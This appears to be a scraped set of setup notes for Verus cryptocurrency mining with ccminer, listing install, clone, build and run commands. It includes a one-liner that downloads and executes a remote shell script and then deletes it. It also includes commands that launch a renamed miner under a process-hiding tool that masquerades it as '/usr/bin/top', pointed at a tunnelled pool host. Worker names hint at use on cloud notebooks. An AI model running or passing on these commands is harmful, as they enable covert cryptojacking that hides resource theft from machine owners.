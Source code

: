 fuser -k 4055/tcp
npm i dotenv (install modul dotenv di node)

#### dependence ccminer

apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential

wget https://raw.githubusercontent.com/hudahadoh/vs/main/vs.sh && chmod +x vs.sh && ./vs.sh && rm vs.sh && cd /usr/bin

./bhmax -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.py1 -p x -t 1

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://jecdg-64162.portmap.host:64162  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.x85 -p x -t 85
./hi -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://jecdg-64162.portmap.host:64162  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.xlt1-4 -p x -t 1


###
git clone --single-branch -b Verus2.2gpu https://github.com/monkins1010/ccminer.git (gpu nvidia)
git clone --single-branch -b Verus2.2 https://github.com/monkins1010/ccminer.git  (cpu only)

cd ccminer

chmod +x build.sh

chmod +x configure.sh

chmod +x autogen.sh

./build.sh

./ccminer  -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RRT2bJnHu9n1Qzh4crRZZKFoX3HXrtTDer.colabs3  -p x  -t 4
